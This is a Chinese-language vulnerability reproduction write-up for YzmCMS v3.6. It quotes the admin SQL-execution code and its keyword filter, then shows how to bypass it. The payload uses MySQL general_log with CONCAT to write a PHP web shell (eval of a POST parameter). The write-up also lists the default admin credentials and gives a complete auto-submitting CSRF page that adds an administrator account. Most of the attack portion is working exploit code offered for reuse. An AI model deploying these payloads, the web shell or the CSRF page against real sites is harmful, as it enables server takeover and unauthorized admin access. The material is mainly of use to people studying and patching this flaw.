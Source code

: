 YzmCMS v3.6 csrf
================

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS v3.6

三、复现过程
------------

1、文件位置: /application/admin/controller/sql.class.php第10-42行中：

    public function init() {  
        if(isset($_POST['sqlstr'])){  
            if(!C('sql_execute')) showmsg('根据系统配置，不允许在线执行SQL命令！', 'stop');  
            $sqlstr = MAGIC_QUOTES_GPC ? stripslashes($_POST['sqlstr']) : $_POST['sqlstr'];  
            $sqlstr = rtrim(trim($sqlstr), ';');  
            $sqls = $_POST['action']=='many' ? explode(';', $sqlstr) : array(0 => $sqlstr);  

            $admin = D('admin');  
            foreach($sqls as $sql){  
    10.             if(stristr($sql, 'outfile')){  
    11.                 $str = '<span class="c-red">ERROR : 检测到非法字符 “outfile”！</span>';  
    12.                 break;  
    13.             }  
    14.             if(stristr($sql, '.php')){  
    15.                 $str = '<span class="c-red">ERROR : 检测到非法字符 “.php” ！</span>';  
    16.                 break;  
    17.             }  
    18.             if(preg_match("/^drop(.*)database/i", $sql)){  
    19.                 $str = '<span class="c-red">ERROR : 不允许删除数据库！</span>';  
    20.                 break;  
    21.             }  
    22.             $result = $admin->query($sql);   
    23.             if($result){  
    24.                 $str = '<span style="color:green">OK : 执行成功！</span>';  
    25.                 if(is_object($result) || is_resource($result)){  
    26.                     $arr = $admin->fetch_all($result);  
    27.                 }                     
    28.             }else{  
    29.                 $str = '<span class="c-red">ERROR : 执行失败！</span>';  
    30.                 break;  
    31.             }                 
    32.         }  
    33.     }

这段函数中对提交的sql参数进行还原处理，然后进行非法字符检测，检测字符是否存在"oufile"、".php",匹配是否有删除数据的操作等。

2、如何绕过这种限制？

首页，outfile被禁止，第一时间想到的就是SQL语句利用日志写入文件，但是写入脚本文件".php"会被检测到非法字符；然后，尝试MySQL中concat函数来连接字符串，拆分'.php'关键词，如
CONCAT(\"test.\",\"php\");最后构造出可以写入文件，绕过非法字符检测的的SQL语句，从而触发代码执行漏洞，控制服务器。

Payload：

    show variables like '%general%';   #查看配置
    set global general_log = on;        #开启general log模式
    set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
    select '<?php eval($_POST[cmd]);?>';   #写入shell

### 漏洞复现

#### 如何获取后台管理员权限

有两种思路：

思路A：通过默认信息，弱口令登录

默认后台路径：<http://www.0-sec.org/admin/index/login.html>

管理员默认账号密码均为：yzmcms

思路B：通过CSRF漏洞，诱导管理员访问，自动在后台添加管理员账号。

CSRF漏洞利用代码如下：

    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">  

    <html>  
    <head>  
    <title>OWASP CRSFTester Demonstration</title>  
    </head>  
    <body οnlοad="javascript:fireForms()">  
    <script language="JavaScript">  
    var pauses = new Array( "68" );  

     function pausecomp(millis)  

     {  

         var date = new Date();  
        var curDate = null;  

         do { curDate = new Date(); }  
         while(curDate-date < millis);  
     }  


     function fireForms()  

     {  

         var count = 1;  
         var i=0;  

         for(i=0; i<count; i++)  
         {  
             document.forms[i].submit();  

             pausecomp(pauses[i]);  
         }  
     }  


     </script>  

     <H2>OWASP CRSFTester Demonstration</H2>  

     <form method="POST" name="form0" action="http://127.0.0.1:80/admin/admin_manage/add.html">  

     <input type="hidden" name="adminname" value="admin"/>  

     <input type="hidden" name="password" value="abc123!"/>  

     <input type="hidden" name="password2" value="abc123!"/>  

     <input type="hidden" name="email" value=""/>  

     <input type="hidden" name="realname" value=""/>  

     <input type="hidden" name="roleid" value="1"/>  

     <input type="hidden" name="dosubmit" value="1"/>  

     </form>  

     </body>  

     </html>

